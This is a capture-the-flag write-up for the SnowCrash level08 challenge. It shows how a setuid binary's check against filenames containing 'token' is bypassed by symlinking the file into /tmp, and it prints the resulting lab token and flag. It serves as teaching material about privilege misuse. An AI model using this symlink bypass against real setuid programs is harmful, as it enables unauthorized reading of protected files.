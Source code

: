 [README.md](../README.md)
# level08
Upon logging in as level07, we find a file named `level08` in the home directory:
```sh
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ file level08
level08: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```

The presence of the setuid and setgid bits on an executable file can pose security risks as it enables the program to execute with elevated privileges.

If we try to execute the file:
```sh
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Based on this behavior, it seems that level08 is a program that expects an argument specifying a file to read, but it prohibits accessing files containing the substring "token".

However, we are unable to create symbolic links to rename the file due to insufficient permissions:
```sh
level08@SnowCrash:~$ ln -s token other_file
ln: failed to create symbolic link `other_file': Permission denied
```

Fortunately, we can still create symbolic links in the /tmp directory, which allows us to bypass the restriction. By linking the file "token" to a different name in the /tmp directory, we can then provide this new path as an argument to level08 and successfully access its contents:
```sh
level08@SnowCrash:~$ ln -s ~/token /tmp/my_file
level08@SnowCrash:~$ ./level08 /tmp/my_file
quif5eloekouj29ke0vouxean
```

This demonstrates how we can use symbolic links in a different directory to rename the file and bypass the restriction imposed by level08.

```sh
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```